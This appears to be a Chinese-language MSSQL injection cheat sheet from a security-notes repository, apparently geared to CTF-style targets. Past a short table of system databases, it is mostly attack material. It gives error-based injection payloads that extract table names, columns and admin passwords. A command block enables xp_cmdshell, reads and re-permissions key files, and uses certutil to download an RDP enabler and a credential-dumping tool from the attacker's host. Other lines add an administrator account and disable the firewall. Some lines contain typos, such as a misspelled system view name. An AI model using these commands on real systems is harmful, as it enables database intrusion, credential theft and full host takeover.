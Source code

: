 # MSSQL注入

| 系统数据库                                                   | 描述                                                         |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| [master 数据库](https://docs.microsoft.com/zh-cn/sql/relational-databases/databases/master-database?view=sql-server-2017) | 记录 SQL Server实例的所有系统级信息。这个数据库包括所有的配置信息、用户登录信息、当前正在服务器中运行的进程的信息 |
| [msdb 数据库](https://docs.microsoft.com/zh-cn/sql/relational-databases/databases/msdb-database?view=sql-server-2017) | 用于 SQL Server 代理计划警报和作业。msdb数据库是SQL Server中的一个特例。如果你查看这个数据库的实际定义，会发现它其实是一 个用户数据库。不同之处是SQL Server拿这个数据库来做什么。所有的任务调度、报警、操作员都存储在msdb数据库中。该库的另一个功能是用来存储所有备份历史。SQL Server Agent将会使用这个库 |
| [model 数据库](https://docs.microsoft.com/zh-cn/sql/relational-databases/databases/model-database?view=sql-server-2017) | 用作 SQL Server实例上创建的所有数据库的模板。 对 **model** 数据库进行的修改（如数据库大小、排序规则、恢复模式和其他数据库选项）将应用于以后创建的所有数据库。model数据库是建立所有用户数据库时的模板。当你建立一个新数据库时，SQL Server会把model数据库中的所有对象建立一份拷贝并移到新数据库中。在模板对象被拷贝到新的用户数据库中之后，该数据库的所有多余空间都将被空页填满 |
| [Resource 数据库](https://docs.microsoft.com/zh-cn/sql/relational-databases/databases/resource-database?view=sql-server-2017) | 一个只读数据库，包含 SQL Server包括的系统对象。 系统对象在物理上保留在 **Resource** 数据库中，但在逻辑上显示在每个数据库的 **sys** 架构中 |
| [tempdb 数据库](https://docs.microsoft.com/zh-cn/sql/relational-databases/databases/tempdb-database?view=sql-server-2017) | 一个工作空间，用于保存临时对象或中间结果集。tempdb数据库是一个非常特殊的数据库，供所有来访问你的SQL Server的用户使用。这个库用来保存所有的临时表、存储过程和其他SQL Server建立的临时用的东西。例如，排序时要用到 tempdb数据库。数据被放进tempdb数据库，排完序后再把结果返回给用户。每次SQL Server重新启动，它都会清空tempdb数据库并重建◊永远不要在tempdb数据库建立需要永久保存的表 |

### 注释

| 参数 | 风格        |
| :--- | :---------- |
| /*   | C语言风格   |
| –    | SQL注释风格 |
| ;%00 | 空字节      |

### 查询语句

**主机名**

**`select @@SERVERNAME;`**

**数据库版本**

**`select @@VERSION;`**

**数据库名**

**`select db_name();`**

**数据库IP地址**

**`select local_net_address from sys.dm_exec_connextions where Session_id=@@spid`**

**暴当前表中的列**

**`article.asp?id=6 group by admin.username having 1=1--`**

**`article.asp?id=6 group by admin.username,admin.password having 1=1--`**

**暴任意表和列**

**`and (select top 1 name from (select top N id,name from sysobjects where xtype=char(85)) T order by id desc)>1`**

**`and (select top col_name(object_id('admin'),N) from sysobjects)>1`**

**暴数据库数据**

**`and (select top 1 password from admin where id=N)>1`**

**Exmaples**

```mssql
query: SELECT username, password FROM Users WHERE id = '1';
1' HAVING 1=1                                       -- 错误
1' GROUP BY username HAVING 1=1--                   -- 错误
1' GROUP BY username, password HAVING 1=1--         -- 正确
Group By可以用来测试列名
```

```mssql
USE master
GO
RECONFIGURE --先执行一次刷新，处理上次的配置
GO
EXEC sp_configure 'show advanced options',1 --启用xp_cmdshell的高级配置
GO
RECONFIGURE --刷新配置
GO
EXEC sp_configure 'xp_cmdshell',1  --打开xp_cmdshell,可以调用SQL系统之外的命令
GO
RECONFIGURE
GO
--使用xp_cmdshell在D盘创建一个myfile 文件夹
EXEC xp_cmdshell 'mkdir d:\myfile',no_output --[no_output]表示是否输出信息
GO

sp_configure 'show advanced options',1; (记得reconfigure) 

sp_configure 'xp_cmdshell',1;（记得reconfigure）启用xp_cmdshell

exec xp_cmdshell 'dir c:\ /s /b |findstr "key"|findstr "txt"'; 找到key的位置

exec xp_cmdshell 'type key位置"'; 直接读key内容，不过一般不会让你有直接读的权限

exec xp_cmdshell 'cacls c:\ /s /b |findstr "key"|findstr "txt" /E /G adminstrator:F'; 改变文件操作权限，F是所有权限，改变权限后再读就能成功

exec xp_cmdshell 'certutil -urlcache -f -split http://本机:8000/3389.exe'; 这里的certutil的方式与基础题4中的curl思路相同，可参考。这里上传的是开启3389的工具。

exec xp_cmdshell 'net user username password /add';exec xp_cmdshell 'net localgroup administrators username /add';创建账户

exec xp_cmdshell 'netsh firewall set opmode disable'; 如果目标开了防火墙，那么即使开启3389端口也无法连接，这条命令用于关闭防火墙。

exec xp_cmdshell 'certutil -urlcache -f -split http://本机:8000/mimikazts.exe';如果不能建立账户，那么需要工具去破解系统账户的密码。这里使用的mimikazts。

exec master..xp_cmdshell ‘dir “C:\Documents and Settings\Administrator\桌面\” /A -D /B’
exec xp_cmdshell ‘type “C:\Documents and Settings\Administrator\桌面\key.txt”‘
```

**Reference**

**[【技术分享】MSSQL 注入攻击与防御](https://www.anquanke.com/post/id/86011)**

